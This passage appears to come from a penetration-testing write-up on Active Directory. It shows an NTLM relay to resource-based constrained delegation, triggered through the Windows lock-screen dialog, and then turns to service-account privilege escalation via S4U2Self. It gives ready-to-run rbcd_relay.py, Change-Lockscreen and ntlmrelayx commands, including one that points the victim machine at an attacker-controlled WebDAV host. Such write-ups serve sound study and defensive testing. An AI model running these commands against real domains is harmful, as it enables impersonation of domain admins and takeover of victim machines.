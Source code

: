 Launching the script we specify the DC's name, target domain, target computer, and our attacking machine account to delegate:
```text
sudo python2 rbcd_relay.py its-dc1 its-piemonte.local PC2$ baud$
```

With the script running we can open the Windows settings and either browse for a custom lock screen...

![8844181613c632e6b77c270f26bf5cdf.png](/_resources/8844181613c632e6b77c270f26bf5cdf.png)


...or a custom user picture:

![273d2eda61a4e8034c8e2fcf48c2b59c.png](/_resources/273d2eda61a4e8034c8e2fcf48c2b59c.png)

In either case paste your evil WebDAV UNC path on the filename bar of the Open File dialog and you'll have triggered the relay:

![569162600b6c0765919773166cb10941.png](/_resources/569162600b6c0765919773166cb10941.png)

Which means we can fully take control of the victim by impersonating a non-protected domain admin on it:

![20ce683a4d7aee1e1bc4025ed8dec9ac.png](/_resources/20ce683a4d7aee1e1bc4025ed8dec9ac.png)

If we don't have GUI access to the target we can use [Change-Lockscreen](https://github.com/nccgroup/Change-Lockscreen), which triggers the relay from a call to a .NET method:
```text
Change-Lockscreen.exe -FullPath \\evil\a\test.jpg
```

It might give an error like this, but at least during my tests the authentication attempt and delegation worked anyway:

![2b260feb60b6f5089d893a636ddf06ba.png](/_resources/2b260feb60b6f5089d893a636ddf06ba.png)

ntlmrelayx also has the `--serve-image` and `--delegate-access` options to do the attack instead of using rbcd_relay, however it has never worked in my lab for some reason. Regardless, these are the options that would be required:
```text
sudo ntlmrelayx.py -t ldaps://192.168.0.100 --http-port 8080 --serve-image test.png --delegate-access --escalate-user 'baud$' --no-dump --no-da --no-acl
```

---

## Service Account LPE 

An interesting privilege escalation opportunity opens when services running as [virtual accounts](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-service-accounts) or NETWORK SERVICE (like MSSQL or IIS) are compromised: these use the machine account's credentials when accessing resources over the network, and S4U2Self requests can be made by any machine account without any configuration required.

What this means is that any computer can request the DC for a ticket that impersonates an arbitrary user on itself, so if we are able to gather a machine account's authentication information we can request a TGS for ANY domain user, including protected ones.
